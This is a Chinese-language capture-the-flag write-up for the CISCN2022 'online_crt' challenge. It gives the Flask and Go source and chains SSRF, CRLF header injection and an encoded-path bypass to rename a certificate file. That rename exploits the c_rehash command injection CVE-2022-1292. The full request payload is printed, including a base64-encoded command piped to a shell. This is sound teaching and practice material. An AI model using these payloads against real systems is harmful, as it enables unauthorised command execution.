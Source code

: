 # [CISCN2022] online_crt




# 0x01 前期准备

## 源码

题目源码用于本地的调试，有所改动，考虑篇幅，只展示重要逻辑代码

app.py

```python
@app.route('/getcrt', methods=['GET', 'POST'])
def upload():
    Country = request.form.get("Country", "CN")
    Province = request.form.get("Province", "a")
    City = request.form.get("City", "a")
    OrganizationalName = request.form.get("OrganizationalName", "a")
    CommonName = request.form.get("CommonName", "a")
    EmailAddress = request.form.get("EmailAddress", "a")
    return get_crt(Country, Province, City, OrganizationalName, CommonName, EmailAddress)


@app.route('/createlink', methods=['GET'])
def info():
    json_data = {"info": os.popen("c_rehash static/crt/ && ls static/crt/").read()}
    return json.dumps(json_data)


@app.route('/proxy', methods=['GET'])
def proxy():
    uri = request.form.get("uri", "/")
    client = socket.socket()
    client.connect(('localhost', 8887))
    msg = f'''GET {uri} HTTP/1.1
Host: test_api_host
User-Agent: Guest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

'''
    client.send(msg.encode())
    data = client.recv(2048)
    client.close()
    return data.decode()

app.run(host="0.0.0.0", port=8888)

```

main.go

```go
package main

import (
	"github.com/gin-gonic/gin"
	"os"
	"strings"
)

func admin(c *gin.Context) {
	staticPath := "../static/crt/"
	oldname := c.DefaultQuery("oldname", "")
	newname := c.DefaultQuery("newname", "")
	if oldname == "" || newname == "" || strings.Contains(oldname, "..") || strings.Contains(newname, "..") {
		c.String(500, "error")
		return
	}
	if c.Request.URL.RawPath != "" && c.Request.Host == "admin" {
		err := os.Rename(staticPath+oldname, staticPath+newname)
		if err != nil {
			return
		}
		c.String(200, newname)
		return
	}
	c.String(200, "no")
}

func index(c *gin.Context) {
	c.String(200, "hello world")
}

func main() {
	router := gin.Default()
	router.GET("/", index)
	router.GET("/admin/rename", admin)

	if err := router.Run(":8887"); err != nil {
		panic(err)
	}
}

```

## 服务启动

因为flask里直接执行了命令，所以我们得把这个文件放到py文件的同级目录

![image-20220531011308669](https://tuchuang.huamang.xyz/img/image-20220531011308669.png)

接着启动服务，分别执行.

```
python3 app.py
go run main.go
```

![image-20220531020438519](https://tuchuang.huamang.xyz/img/image-20220531020438519.png)

# 0x02 题目逻辑

这里题目的逻辑大致是这样：

首先通过getcrt路由生成crt文件，然后利用go里的admin/rename去修改文件名，最后利用createlink里的c_rehash执行命令

![image-20220531020556035](https://tuchuang.huamang.xyz/img/image-20220531020556035.png)

可以看到proxy里面，是拼接了一个http包的

![image-20220531020721792](https://tuchuang.huamang.xyz/img/image-20220531020721792.png)

这里不免想到CRLF，进了go里面，那么有这样的条件需要满足

```go
	if c.Request.URL.RawPath != "" && c.Request.Host == "admin" {
		err := os.Rename(staticPath+oldname, staticPath+newname)
		if err != nil {
			return
		}
		c.String(200, newname)
		return
	}
	c.String(200, "no")
```

## c.Request.URL.RawPath的绕过

首先是`c.Request.URL.RawPath`，这个的绕过方法是url编码，我们用`%252f`代替/来绕过这个

接着是host得是admin，这里我们可以用CRLF来实现

## c_rehash的RCE:CVE-2022-1292

这里是给了c_rehash的源码的，先搜了一下这个cve，找到官方的[修复方案](https://git.openssl.org/gitweb/?p=openssl.git;a=commitdiff;h=1ad73b4d27bd8c1b369a3cd453681d3a4f1bb9b2)，发现是在这里进行了修复

![image-20220531022605244](https://tuchuang.huamang.xyz/img/image-20220531022605244.png)



那么我们就可以对这里分析一下，这里可以从fname这里进行代码注入，类似于这样

```
1.crt"||id>1.txt||echo"
```

![image-20220531030310940](https://tuchuang.huamang.xyz/img/image-20220531030310940.png)



那么思路就清晰了

## 最后逻辑

我们先生成一个crt记录下文件名，然后通过proxy，到go的/admin/rename下，通过CRLF绕过host的判断，把文件名修改成代码注入的样子，最后通过createlink执行c_rehash进行命令执行



但是最后有一个问题，就是这里fname还是有过滤的，是不能出现斜杠，那么我们就没有办法读取到其他目录下的文件了，这里的绕过逻辑是通过**base64**进行消敏

`$fname =~ s/\"/\\\"/g;`

payload：

```
uri=/admin%252frename?oldname=8c3bcef7-62f5-476c-9c9d-9dc7054a5533.crt%26newname=1.crt"||echo${IFS}"Y2F0IC9mbGFnPnpob25nM2Nj"|base64${IFS}-d|sh${IFS}-i"%20HTTP/1.1%0d%0aHost:%20admin%0d%0a%0d%0aGET%20/
```

成功修改文件名

![image-20220531024730936](https://tuchuang.huamang.xyz/img/image-20220531024730936.png)



![image-20220531024543189](https://tuchuang.huamang.xyz/img/image-20220531024543189.png)



然后再到createlink执行命令

![image-20220531024111917](https://tuchuang.huamang.xyz/img/image-20220531024111917.png)

访问static/crt/1.txt，成功读取到/etc/passwd

![image-20220531024152898](https://tuchuang.huamang.xyz/img/image-20220531024152898.png)



## tricks

这里绕过Host判断，可以不用CRLF来绕过，这里可以用http://admin/admin/rename来绕过



![image-20220531025010258](https://tuchuang.huamang.xyz/img/image-20220531025010258.png)

可以看到是可以成功绕过的

